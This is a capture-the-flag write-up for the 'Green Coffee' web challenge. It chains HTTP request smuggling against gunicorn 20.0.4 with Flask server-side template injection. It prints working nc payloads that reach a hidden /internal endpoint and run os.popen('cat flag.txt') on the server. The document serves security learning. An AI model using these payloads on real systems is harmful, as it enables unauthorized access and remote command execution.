


web smuggling
ssti

# Green Coffee

## Challenge

My n00b friend built this web application for his coffee business. Can
you help me pwn it?

**Note**: Enumeration is allowed, but don't use
very large wordlists.

<http://34.76.206.46:10014>

## Solution

The link hosts a simple page with nothing useful on it.

Since the description says we're allowed to enumerate, that's what I
did. I found out that any endpoint that matches `/internal.*` seems to
return the following page.

    200      GET      484l     1788w    26101c http://34.76.206.46:10014/
    200      GET        8l       17w      163c http://34.76.206.46:10014/internal
    200      GET        8l       17w      163c http://34.76.206.46:10014/forbidden
    200      GET        8l       17w      163c http://34.76.206.46:10014/internal_data
    200      GET        8l       17w      163c http://34.76.206.46:10014/internals
    200      GET        8l       17w      163c http://34.76.206.46:10014/internal_error

Cool, so it seems we have to somehow bypass this. After messing around
with request headers and getting nowhere, I noticed the following
response header.

    server: gunicorn/20.0.4

I then decided to search when this version of `gunicorn` was released
and found this
[changelog](https://docs.gunicorn.org/en/20.0.4/news.html) from 2019.
Why would this chall be using a version of `gunicorn` from 2019?
Probably because it's vulnerable to something, which turned out to be
[request
smuggling](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/).

I changed the command in the previous link and managed to access
`/internal`.

    echo -en "GET / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 71\r\nSec-Websocket-Key1: x\r\n\r\nxxxxxxxxGET /internal HTTP/1.1\r\nHost: localhost\r\nContent-Length: 35\r\n\r\nGET / HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc 34.76.206.46 10014

    <snip>
    HTTP/1.1 200 OK
    server: gunicorn/20.0.4
    date: Sun, 23 Oct 2022 16:37:28 GMT
    content-type: text/html; charset=utf-8
    content-length: 185

    <html>
        <head>
            <title>Internal Portal</title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>GET err: Missing username parameter</h3>
        </body>
    </html>

It seems we need a `username` parameter, so I went ahead and tried
`?username=admin`

    <html>
        <head>
            <title>
                Internal Portal
            </title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>Welcome, admin</h3>
        </body>
    </html>

Huh, that's not a flag. The parameter got reflected on the page, so
maybe we have XSS? I tried `?username=<s>hello</s>`.

    <html>
        <head>
            <title>
                Internal Portal
            </title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>Welcome, &lt;s&gt;hello&lt;/s&gt;</h3>
        </body>
    </html>

Ok, I guess we don't have XSS. After trying to bypass the filter for a
while, I remembered that this is a Flask application. Flask uses
templates, so maybe SSTI could work? It'd be weird, since SSTI 99% of
the time is also XSS, but whatever. I tried `?username={{7*7}}`.

    <html>
        <head>
            <title>
                Internal Portal
            </title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>Welcome, 49</h3>
        </body>
    </html>

Alright, nevermind, we got SSTI. I then guessed the flag was in
`flag.txt` and used the following payload to get it.

    echo -en "GET / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 154\r\nSec-Websocket-Key1: x\r\n\r\nxxxxxxxxGET /internal?username=%7B%7Bcycler.__init__.__globals__.os.popen('cat%20flag.txt').read()%7D%7D HTTP/1.1\r\nHost: localhost\r\nContent-Length: 35\r\n\r\nGET / HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc 34.76.206.46 10014

    <html>
        <head>
            <title>
                Internal Portal
            </title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>Welcome, jadeCTF{smuggl3r_smuggl1ng_p4yl04ddd!}</h3>
        </body>
    </html>

Flag: `jadeCTF{smuggl3r_smuggl1ng_p4yl04ddd!}`
